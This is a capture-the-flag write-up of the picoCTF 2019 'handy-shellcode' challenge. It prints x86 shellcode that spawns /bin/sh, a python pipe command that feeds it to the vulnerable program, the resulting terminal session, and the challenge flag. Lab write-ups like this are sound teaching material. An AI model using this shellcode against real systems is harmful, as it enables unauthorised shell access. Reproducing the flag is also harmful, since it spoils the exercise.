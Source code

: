 # handy-shellcode
#### This [program](https://2019shell1.picoctf.com/static/60f2c9fc4aa125e85132fe694eff65d8/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server. [Source](https://2019shell1.picoctf.com/static/60f2c9fc4aa125e85132fe694eff65d8/vuln.c).

Searching online we can find some shellcode to input into this program. `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80` worked for me. Using python to convert it to ascii, and using cat to keep the shell open, we can pipe the input into vuln and gain access to the root shell. Running cat flag.txt we solve the challenge.
```
Supermac30@pico-2019-shell1:/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';cat) | ./vuln
Enter your shellcode:
1�Ph//shh/bin��P��S��
                    ̀
Thanks! Executing now...
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}
```
Flag: picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}
